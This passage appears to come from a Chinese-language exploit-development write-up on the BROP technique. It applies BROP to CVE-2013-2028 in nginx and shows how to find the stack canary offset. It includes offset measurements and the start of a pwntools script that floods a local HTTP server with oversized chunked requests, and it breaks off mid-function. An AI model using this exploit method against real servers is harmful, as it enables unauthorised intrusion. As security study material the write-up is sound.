 ## CVE-2013-2028

我们现在来使用BROP技术来利用CVE-2013-2028这个漏洞

![image-20220726151343161](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220726151343161-16595821131601.png)

我们可以看到它多了一个canary进行保护

#### 绕过canary

![804631-20190111021220385-922883120](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/804631-20190111021220385-922883120.jpg)

那在我们爆破测试返回地址之前，我们需要先绕过canary，我们使用同样的方法，通过不断的去填充缓冲区，当它破坏canary的时候就会出现crash

```
（通过测试发现

我打入4000得数据，在栈中覆盖了3038的数据

我打入5000得数据，在栈中覆盖了4038的数据

我打入6000得数据，在栈中覆盖了5038的数据

我打入7000得数据，在栈中覆盖了6038的数据

我打入8000得数据，在栈中覆盖了7038的数据）
这里先留个记录 看一下是否影响后面的操作
```

但是 我检测到cannary开始的地址在5067的位置

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

#context.log_level = "DEBUG"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

def get_canary_offset():
    i = 4096
    while 1:
        s=connect("127.0.0.1", 80)
        data1 = base_payload
        log.info("payload = %s\ni = %d", data1 + "A" * i, i)
```